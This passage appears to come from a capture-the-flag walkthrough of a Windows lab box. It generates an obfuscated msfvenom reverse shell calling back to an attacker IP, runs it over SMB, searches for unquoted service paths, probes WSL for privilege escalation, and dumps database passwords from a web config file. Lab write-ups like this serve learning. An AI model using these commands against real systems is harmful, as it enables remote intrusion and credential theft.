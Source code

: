 Which hangs almost immediately.

And I can't access the `C:\Users\Public` folder or run commands like `systeminfo`? This box is weird...

Deciding to try making a more obfuscated version of msf reverse shell:

```sh
❯ msfvenom -f exe -o rsh.exe -p windows/shell_reverse_tcp -a x86 --platform windows -e x86/shikata_ga_nai -i 9 LHOST=10.10.14.10 LPORT=443
```

This uses 9 iterations to hide better.

Now running `\\\10.10.14.10\share\rsh.exe` works! And it's more stable than my netcat shell. Go figure.

Looking for unquoted service paths fails with permission denied:

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Trying to see if the link to bash leads anywhere. There is mention of WSL being able to give bind shell:

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

```sh
# try following along with WSL shell part
dir /s/b *ubuntu*.exe
cd C:\Users\tyler\AppData\Local\Microsoft\WindowsApps\
.\ubuntu1804.exe config --default-user root
# The system cannot execute the specified program.

cd C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs
# see ubuntu file system, but not noticing anything for exploit right away
```

I'll circle back to this.

Now looking at web directory for creds:

```sh
cd \inetpub\wwwroot
type db.php
# define('DB_SERVER', 'localhost');
# define('DB_USERNAME', 'secnotes');
# define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
# //define('DB_USERNAME', 'root');
# //define('DB_PASSWORD', 'qwer1234QWER!@#$');
```

Interesting creds.... cut short by A-rey to avoid long rabbit hole.

Back to looking at bash.
